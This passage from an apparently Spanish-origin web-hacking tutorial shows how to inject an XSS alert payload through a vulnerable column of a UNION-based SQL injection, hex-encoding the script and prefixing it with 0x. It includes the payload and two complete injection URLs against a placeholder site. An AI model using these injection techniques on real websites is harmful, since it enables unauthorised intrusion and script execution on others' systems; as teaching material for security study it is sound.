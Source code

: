In the same way, we are going to make use of the vulnerable column, in this case let's remember that column `5` is vulnerable.

To convert strings to hex there are many tools and many pages that allow us to do that, one of them is this:

https://www.convertstring.com/es/EncodeDecode/HexEncode


a very basic xss injection payload is the following:

`<script>alert(1)</script>` 

in hex it looks like this:

`3C7363726970743E616C6572742831293C2F7363726970743E`

and when injecting like this:

```
http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' union select 1,2,3,4,3C7363726970743E616C6572742831293C2F7363726970743E,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,23 --+
```
It shows us:

`an error`

why?? well, the page shows us the error since it cannot read the string in hex like this, so that it reads it correctly we have to add `0x` at the beginning of the string converted to hex, in this way we are telling it to the page that we want that through that vulnerable column we execute that string in `hex`, like this:

```
http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1' union select 1,2,3,4,0x3C7363726970743E616C6572742831293C2F7363726970743E,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,23 --+
```
It shows us:

`an alert`

Ready, this way we are going to an xss injection within a sql injection.


